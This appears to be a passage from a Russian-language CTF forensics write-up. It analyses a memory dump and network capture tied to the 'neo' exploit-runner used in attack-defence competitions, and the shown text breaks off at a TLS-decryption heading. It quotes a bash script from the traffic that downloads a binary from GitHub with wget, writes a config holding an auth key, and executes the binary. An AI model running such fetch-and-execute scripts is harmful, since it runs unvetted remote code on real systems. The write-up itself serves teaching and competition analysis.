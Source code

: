 # Исследование

Нам даны два файла - дамп памяти и траффика. Запуск `strings` на дамп памяти показывает, что это явно программа на go, называется `/home/ctf/word.exe` (не дайте расширению `.exe` запутать вас, это программа под linux). Так же можно заметить строки про какое-то `neo`, например `neo_exploit_queue_exploit_run_time_seconds_bucket` (что выглядит как какая-то метрика, но не гуглится). Больше ничего полезного в дампе памяти пока нет, перейдем к анализу траффика.

# Анализ траффика
Wireshark - лучший друг при работе с .pcap файлами, воспользуемся им. В самом начале мы видим незашифрованный http запрос - wget скачивает файл `termbin.com/0gdj`. В ответ прилетает bash скрипт:
```bash
#!/bin/sh

wget -q https://github.com/andser612345/data/raw/main/neo_client.elf -O word.exe

cat >word.yml <<-EOT
host: "neo.cbsctf.live:443"
metrics_host: "neo.cbsctf.live:8428/api/v1/import/prometheus"
exploit_dir: "data"
grpc_auth_key: "zeonrevenge"
use_tls: true
EOT

chmod +x word.exe
./word.exe -c word.yml run
```

Отлично, у нас есть бинарь, который запущен, и для которого дамп памяти (его можно скачать по этой же ссылке с github), и какой-то конфиг файл. Если загуглить `github neo_client use_tls`, то первая ссылка будет вести на [репозиторий](https://github.com/C4T-BuT-S4D/neo). Выглядит правдоподобно, потому что домен в конфиге cbsctf.live, и репозиторий команды C4T-BuT-S4D. Немного поизучав, можно понять, что это утилита для распределенного запуска эксплойтов на A&D соревнованиях, и сделать предположение, что либо один из эксплойтов получает флаг от другой команды, либо сам содержит в себе флаг.

При попытке подключиться к `neo.cbsctf.live` видим, что такого домена уже нет, значит надо дальше копать траффик и дамп памяти. К сожалению, некоторые ip адреса из дампа к моменту проведения CTF уже опять стали активными, и вели на левые сайты. Так получилось, потому что поднималось все в облаке, это не было запланированно.

Если посмотреть дальше на траффик, видим много tls пакетов до адресов 140.82.121.3 и 185.199.110.133. Судя по скрипту это github, и `whois 140.82.121.3` это подтверждает.

Примерно на 2774 пакете замечаем изменения - появился http траффик, и адреса изменились. http пакеты - сбор метрики с neo_runner, там ничего интересного. Остальное зашифровано tls.
Еще чуть дальше видим другие http пакеты - `POST //api/register` на адрес 84.252.131.189 и чуть позже получение флага через `GET //api/notes`, на что прилетает флаг в ructf формате. Это подтверждает гипотезу, что у нас запущена система запусков эксплойтов, но флага на наш CTF тут нет.

Весь остальной траффик зашифрован.

# Расшифровка TLS
